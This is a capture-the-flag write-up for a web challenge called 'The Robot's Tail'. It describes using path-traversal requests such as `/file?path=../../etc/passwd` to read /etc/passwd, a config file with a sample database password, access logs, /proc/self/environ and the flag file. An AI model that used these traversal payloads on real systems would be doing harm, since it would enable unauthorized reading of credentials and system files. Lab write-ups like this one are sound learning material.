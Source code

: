 # The Robot's Tail

## Description
You enter a virtual maze, a labyrinth of shifting corridors and endless paths. A guardian robot patrols the floor, leaving a trail behind as it moves. Follow the path it carves, trace its movements carefully, and uncover the key it leads you to. Only by following the robot’s trail can you reach the door to the next floor.

## Solve
**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

- In this challenge, I first used the inspect element and checked the code. There, in hidden class, the following info was given:

```
<div class="hidden">
        <p>Start by checking what this site tells search engine bots in <a href="/robots.txt" style="color: #00bcd4;">robots.txt</a></p>
</div>
```

- Now we needed to go to the /robot.txt filee. So, I set one of the paths links to the robots.txt file and found this:

```
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```

- Now, setting the path `/file?path=../../etc/passwd` and going there, we get: 

```
"root:x:0:0:root:/root:/bin/bash\n"
            "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
            "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
            "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
            "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
            "webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
``` 

- This time, it says to check the configs. So setting the path accordingly and going to that endpoint, we find:

```
"<?php\n"
            "// Database configuration\n"
            "$db_host = 'localhost';\n"
            "$db_user = 'admin';\n"
            "$db_pass = 's3cr3t_p@ssw0rd';\n"
            "// Debug info: Check the access logs for unusual activity\n"
            "// Log location: /var/log/apache2/access.log\n"
            "?>"
```

- This time we go to the access logs to get this info:

```
"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
            "192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
            "10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
            "# Interesting environment variables might be found at /proc/self/environ\n"
            "203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
```

- Since we already checked the passwd path, we check the environ path and get this:

```
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
            "HOSTNAME=web-server-01\n"
            "USER=www-data\n"
            "HOME=/var/www\n"
            "SECRET_LOCATION=/home/ctf/.secret\n"
            "PWD=/var/www/html\n"
            "LANG=C.UTF-8\n"
            "SHLVL=1\n"
```

- Here, we finally get the path to the secret location. Using that, we get: 

```
"Directory listing for /home/ctf/.secret:\n"
            "total 12\n"
            "drwx------ 2 ctf ctf 4096 Jan  1 10:00 .\n"
            "drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..\n"
            "-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt\n"
            "\n"
```

- Now finally going to the path `/home/ctf/.secret/flag.txt`, we get the flag.